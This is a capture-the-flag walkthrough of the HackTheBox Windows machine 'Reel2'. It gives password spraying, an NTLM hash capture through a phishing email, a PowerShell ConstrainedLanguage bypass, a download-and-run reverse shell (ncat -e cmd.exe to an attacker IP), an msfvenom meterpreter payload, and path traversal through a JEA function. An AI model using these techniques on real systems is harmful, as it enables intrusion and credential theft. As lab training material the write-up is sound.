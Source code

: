 # Reel2 - Hard

### Initial nmap scan
Like any other windows box there are quite a lot of ports open, but most important ones are: 80 (Web), 443 (SSL) and 8080(Web)

### Initial recon for port 80
Well, here there isn't much because after a few tries I always ended up with 403. So I moved on.

### Initial recon for port 443 
Here I started gobuster using Seclists Discovery/Web-Content/raft-large-directories.txt and it imediatly hit with `owa` which stands for `Outlook web acess`. We have an attack surface but we don't have credentials so let's move on to the last port

### Initial recon for port 8080
Well here there is an web application installed, called `Wallstant`. At first I tried to look for CVEs but there is literally nothing on it. Than, I created an account and worked my way to understand how it works. I found that there are 6 featured users and 2 featured posts. The post created by sven contained a year and a season and seemed more fit for a password. So I tried `svensson:summer2020` and `svensson:Summer2020` and nope. Than I got the idea: All HackTheBox and in general all windows users have the same schema: `firstletter.lastname` And I tried `s.svensson:Summer2020` and it WORKED. Now we are in and..... we are trolled with Outlook set in Swedish... great.

### Getting the foothold
Now I switched back to port 433 and tried to find some emails, to recover the deleted ones or something that will help me get a step closer to user. But there was nothing. Than I tought to put a link inside an email and send that email to all. And it did hit after a few seconds `User-Agent: Mozilla/5.0 (Windows NT; Windows NT 6.3; en-US) WindowsPowerShell/5.1.14409.1018` disclosing the fact that is using `Powershell 5.1`. Now the only thing that comes into my mind is a `NTLM Relay Attack` so I fired up Responder and sent another email with my email. Bullseye. We did it, I save the Responder response at `responderCapture.txt`, extracted the hash into `chash` and fired up john to crack it. After no more than 3 seconds it cracked `kittycat1`. When we try to login using evil-winrm we are literally getting an error `The term 'Invoke-Expression' is not recognized as the name of a cmdlet, function, script file` from which we can't escape. 

### Getting the user 
I can't use evil-winrm and other alternatives I don't know... so I decided to install powershell on Linux using `apt -y install powershell`, aditionally I installed `apt install gss-ntlmssp`. Now to login use this sequence: 
```powershell
$password = ConvertTo-SecureString -AsPlainText -Force "kittycat1"
$cred= New-Object System.Management.Automation.PScredential -ArgumentList "htb\k.svensson", $password
enter-pssession -ComputerName 10.10.10.210 -Credential $cred -Authentication Negotiate
```
Here we are... now we should have user.... nope. From this point it got waaay to weird because I didn't saw that scenario before. I tried to check in which way powershell operates using `$ExecutionContext.SessionState.LanguageMode` which outputs `ConstrainedLanguage`. From here I got stuck for many hours and tried different things to bypass it but none worked, as a side note I struggled at this more than the whole root part. I got hinted, after a few hours of research and powershell learning, by TheCyberGeek who told me to use functions. From here the whole sky opened.

So in a few seconds after this I used: `function getText {Get-Content C:\Users\k.svensson\Desktop\user.txt}` and called it `getText` and it returned user flag. BINGO!
Now we also need a redundant shell so I used this sequence and got a shell ASAP
```powershell
function iwr{iwr http://10.10.14.24/ncat.exe -Outfile "C:\Users\k.svensson\Documents\nc.exe"}
function pwn{C:\Users\k.svensson\Documents\nc.exe -e cmd.exe 10.10.14.24 9001}
iwr
pwn
```

### Privesc to second user
This step was a lot of fun and interesting. All folders pointed to `StickyNotes.exe` so I started to dig into the filesystem to get more information about this. After a few files searched I found that it was about (Playork)[https://github.com/Playork/StickyNotes]'s project this. From here I looked deeper and deeper into the filesystem but there was nothing about the notes... so I tried to take a screenshot of the desktop. I created a meterpreter payload `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=9001 -f exe -o shell.exe` and started the impacket's smb server. I copied the file with `powershell Copy-Item -Path \\10.10.14.4\zaBogdan\shell.exe -Destination .\shell.exe` and executed it. 

On the meterpreter shell I tried to use `screenshot` but it gave me this eror: `[-] Error running command screenshot: Rex::RuntimeError Current session was spawned by a service on Windows 8+. No desktops are available to screenshot.` so I migrated to stickynotes process using `migrate 6800`. Now it worked and got a screenshot of the desktop. And look at it there is a note with the credentials for jea_testing_account.

### Getting the root

Now I need to summon another powershell instance and login with jea. For this I used the following syntax and I started again to look over which contrains we are supposed.
```powershell
$password = ConvertTo-SecureString -AsPlainText -Force "Ab!Q@vcg^%@#1"
$cred= New-Object System.Management.Automation.PScredential -ArgumentList "htb\jea_test_account", $password
enter-pssession -ComputerName 10.10.10.210 -Credential $cred -Authentication Negotiate -configurationname jea_test_account
```
Well we can't even execute `$ExecutionContext.SessionState.LanguageMode` so I tried to `Get-Command *` and it poped up with `Check-File`. This is a custom made function which has been defined under `C:\Users\k.svensson\Documents\jea_testing_account.psrc` and it involves a `Get-Content` which can be easily travexec. So I got the root flag using `Check-File "C:\ProgramData\Mozilla\..\..\Users\Administrator\Desktop\root.txt"`

Pwned.

### Credentials
- htb\s.svensson:Summer2020 (Outlook, web)
- k.svensson:kittycat1(user)
- jea_test_account:Ab!Q@vcg^%@#1 (second user)
